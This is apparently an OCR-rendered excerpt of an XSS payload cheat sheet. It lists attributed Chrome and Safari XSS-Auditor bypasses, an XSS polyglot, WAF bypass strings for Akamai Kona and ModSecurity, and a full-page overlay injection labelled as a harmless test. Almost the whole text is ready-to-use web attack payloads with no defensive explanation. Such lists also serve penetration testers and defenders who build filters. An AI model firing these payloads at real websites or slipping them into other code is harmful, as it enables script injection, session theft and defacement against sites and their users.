 ```html
```
```html
无害,仅测试
1<b>1
<table style="left: 0px; top: 0px; position: fixed;z-index: 5000;position:absolute;width:100%;height:300%;background-color: black;"><tbody><tr><td style="color:#FFFFFF;z-index: 6000;vertical-align:top;"><h1>test</h1></td></tr></tbody></table>
```

**Chrome XSS-Auditor Bypass** by [@vivekchsm](https://twitter.com/vivekchsm)

```html
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>
```

**Chrome < v60 beta XSS-Auditor Bypass**

```html
<script src="data:,alert(1)%250A-->
```

**Other Chrome XSS-Auditor Bypasses**

```html
<script>alert(1)</script
```

```html
<script>alert(1)%0d%0a-->%09</script
```

```html
<x>%00%00%00%00%00%00%00<script>alert(1)</script>
```

**Safari XSS Vector** by [@mramydnei](https://twitter.com/mramydnei/status/902470271327551489)

```html
<script>location.href;'javascript:alert%281%29'</script>
```

**XSS Polyglot** by [Ahmed Elsobky](https://github.com/0xSobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

**Kona WAF (Akamai) Bypass**

```html
\');confirm(1);//
```

**ModSecurity WAF Bypass**
Note: This kind of depends on what security level the application is set to. See: https://modsecurity.org/rules.html
```html
<img src=x onerror=prompt(document.domain) onerror=prompt(document.domain) onerror=prompt(document.domain)>
```

